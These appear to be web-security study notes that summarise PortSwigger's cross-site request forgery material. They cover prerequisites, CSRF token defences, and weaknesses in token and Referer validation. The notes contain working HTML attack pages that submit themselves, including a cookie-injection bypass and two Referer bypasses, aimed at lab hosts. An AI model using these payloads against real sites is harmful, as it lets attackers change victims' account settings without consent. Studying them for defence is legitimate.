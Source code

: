 # Cross-site request forgery (CSRF)

Source:[portswigger](https://portswigger.net/web-security/csrf)

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

For a CSRF attack to be possible, three key conditions must be in place:

- **A relevant action.** There is an action within the application that the attacker has a reason to induce. This might be a privileged action (such as modifying permissions for other users) or any action on user-specific data (such as changing the user's own password).
- **Cookie-based session handling.** Performing the action involves issuing one or more HTTP requests, and the application relies solely on session cookies to identify the user who has made the requests. There is no other mechanism in place for tracking sessions or validating user requests.
- **No unpredictable request parameters.** The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess. For example, when causing a user to change their password, the function is not vulnerable if an attacker needs to know the value of the existing password.

Eg, the attacker can construct a web page containing the following HTML:
```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
If a victim user visits the attacker's web page, the attacker's page will trigger an HTTP request to the vulnerable web site. If the user is logged in to the vulnerable web site, their browser will automatically include their session cookie in the request (assuming SameSite cookies are not being used). The vulnerable web site will process the request in the normal way, treat it as having been made by the victim user, and change their email address.

The most robust way to defend against CSRF attacks is to include a CSRF token within relevant requests. The token should be:

- Unpredictable with high entropy, as for session tokens in general.
- Tied to the user's session.
- Strictly validated in every case before the relevant action is executed.

By using CSRF tokens, the request contains an additional parameter which is unknown to

## Common CSRF vulnerabilities

- Validation of CSRF token depends on request method: Sometime csrf is only checked for POST requests and not for GET.
- Validation of CSRF token depends on token being present: When token is omitted it is not checked
- CSRF token is not tied to the user session: csrf token from another user session can be used.
- CSRF token is tied to a non-session cookie: In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together. To bypass this we can somehow set the cookie in victim's browser and perform the attack. Eg:
```html
<html>
  <body>
    <form action="https://acd41f251facd65c80122553008d00c5.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="nwA4aBrVat0amHXA9Z6nfo8coPU8JhWK"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim.  -->
    <img src="https://acd41f251facd65c80122553008d00c5.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=kE4no0fY9JeJvK9KSGzoZrIYZ7PTubzQ" onerror="document.forms[0].submit()">
  </body>
</html>
```
The search page have no csrf protection so we will set the cookie with that url.
- CSRF token is simply duplicated in a cookie: Similar to privious situation where the cookie value and parameter are same.
- Referer-based defenses against CSRF: Instead of csrf token. It uses HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. Referer based vulnerabilities:
  - Validation of Referer depends on header being present. This can be done by using meta tag.
```html
<html>
  <head>
    <meta name="referrer" content="never">
  </head>
  <body>
    <form action="https://acbb1f651f90927c80931c71009c00b3.web-security-academy.net/my-account/change-email/" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <img src="1" onerror="document.forms[0].submit()">
  </body>
</html>
```
  - Validation of Referer can be circumvented: Sometime only checked whether the app domain is present in the referrer. That means `http://vulnerable-website.com.attacker-website.com/csrf-attack` or `http://attacker-website.com/csrf-attack?vulnerable-website.com` is valid. To exploit this vuln:
```html
<html>
<body>
<form action="https://aca11f6d1fb0778980e3701600ef0089.web-security-academy.net/my-account/change-email/" method="POST">
  <input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script>
      history.pushState("", "", "/aca11f6d1fb0778980e3701600ef0089.web-security-academy.net")
      document.forms[0].submit();
    </script>
</body>
</html>
```

